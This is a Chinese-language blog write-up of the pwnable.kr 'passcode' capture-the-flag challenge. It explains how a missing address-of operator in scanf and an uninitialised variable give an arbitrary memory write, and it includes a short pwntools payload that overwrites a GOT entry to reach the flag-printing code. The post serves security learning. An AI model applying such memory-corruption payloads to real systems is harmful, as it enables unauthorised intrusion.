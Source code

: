 ```yaml
---
layout: post
title: 【pwnable.kr】passcode_任意地址写
date: 2018-12-16
categories: blog
tags: 
description: 
---
```


## 简介
passcode是一道任意地址写的问题，不过解题过程中碰到了一些诡异的情况(解题脚本概率性失败，至今不解)……

## passcode原题
```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   
}
```

## 解题思路
题目共2个函数，

welcome: 输入100个字节，并打印该100个字节

login: 验证passcode1和passcode2，验证通过则打印flag，否则退出

但login函数中存在两个问题：

1) passcode1和passcode2使用前未初始化

2) scanf("%d", passcode1)不正确使用，第2个参数未取地址，正确用法为scanf("%d", &passcode1)

注：由于问题2，导致passcode1和passcode2是无法直接赋值的。

这两个问题将导致：

1) passcode1可以任意赋值

纳尼？！不是刚刚说passcode1无法直接赋值么？

淡定，用gdb调试一下就能发现，passcode1虽然无法直接赋值，但是由于未初始化，它会复用welcome函数中输入的100字节的最后4字节，通过修改这4字节，就能任意赋值passcode1

2) passcode1值作为地址指向的内存任意修改

scanf("%d", &value)的第2个参数本应为地址值，将输入的值写入&value地址所指向的内存

scanf("%d", passcode1)中，我们则将输入的值写入passcode1作为地址值所指向的内存，即*passcode1

因此，这是一道任意地址写的题目。

剩下的就简单了，通过修改got.plt表，将print函数对应的got地址值修改为获得flag的地址就行了。（当然修改其他函数也行，只要是在退出前能执行到的函数即可）

## 解题过程
根据解题思路，我们需要做两件事：

1) 在got.plt表中找到print函数的地址()

![](https://github.com/zzz4ck/zzz4ck.github.io/blob/master/screenshot/passcode-got.plt.PNG)

2) 找到打印flag的地址

![](https://github.com/zzz4ck/zzz4ck.github.io/blob/master/screenshot/passcode-stack.PNG)

构造解题脚本如下，直接在服务器上运行
```
from pwn import *
p = process('./passcode')
p.send('a'*96 + '\x00\xa0\x04\x08')
p.sendline('‭134514147‬')
p.recv(512)
```

得到flag

![](https://github.com/zzz4ck/zzz4ck.github.io/blob/master/screenshot/passcode-success.PNG)

注：上述脚本在服务器运行概率性失败

![](https://github.com/zzz4ck/zzz4ck.github.io/blob/master/screenshot/passcode-fail.PNG)